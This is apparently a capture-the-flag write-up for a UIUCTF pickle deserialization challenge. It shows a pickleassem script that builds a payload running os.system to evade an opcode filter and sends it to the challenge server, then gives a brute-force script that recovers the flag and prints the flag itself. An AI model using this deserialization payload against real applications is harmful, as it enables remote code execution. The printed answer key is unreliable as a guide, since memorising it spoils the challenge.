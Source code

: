 https://ctftime.org/event/2275

# push_and_pickle (misc)

pickle deserialization task with two parts


## Solution
The first part filters the global and global_stack opcodes `c` and `\x93`
So if you are writing python then converting it to pickle it will be pretty hard to bypass the check.
Thankfully there is a tool called `pickleassem` that lets you write python assembly kinda like pwn shellcraft

# part1
```python
import pickle
import pickletools
import base64

from pwn import *

from pickleassem import PickleAssembler

pa = PickleAssembler(proto=4)
pa.push_mark()
pa.util_push('cat chal.py')
pa.build_inst('os', 'system')
payload = pa.assemble()
enc = base64.b64encode(payload).decode()
print(enc)

p = remote('push-and-pickle.chal.uiuc.tf', 1337, ssl=True)
p.sendline(enc)
p.interactive()
```

The second part is just a reversing challenge and you can skip most of it by using:
- radare with the pickle plugin
- uncompyle6 with python version < 3.9

solution part2
```python
flag = "lbp`sg~S:_p\x7fnf\x81yJ\x8bzP\x92\x95\x8cr\x88\x9d\x90\x8c\x7fb\x96\xa0\xa3\x9e\xae^\xa4s\xa5\xa6y}\xc8"
guess = "uiuctf{bbAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}"

def replace_str_index(text,index=0,replacement=''):
    return f'{text[:index]}{replacement}{text[index+1:]}'

def arg1(x, b):
    idx = x[0]
    return ord(x[1]) == (ord(b[idx]) + 2 * (idx + 97)) % 203
arg2 = enumerate(flag)

flag = ""
for item in arg2:
    for k in range(64):
        for i in range(256):
            char = chr(i)
            ret = arg1(item, replace_str_index(guess, k, char))
            if ret == True:
                flag = flag + char
                break

print(flag)
```

## Flag
`uiuctf{N3Ver_Und3r_3stiMate_P1ckles!e2ba24}`

shafouz 2024/06/28
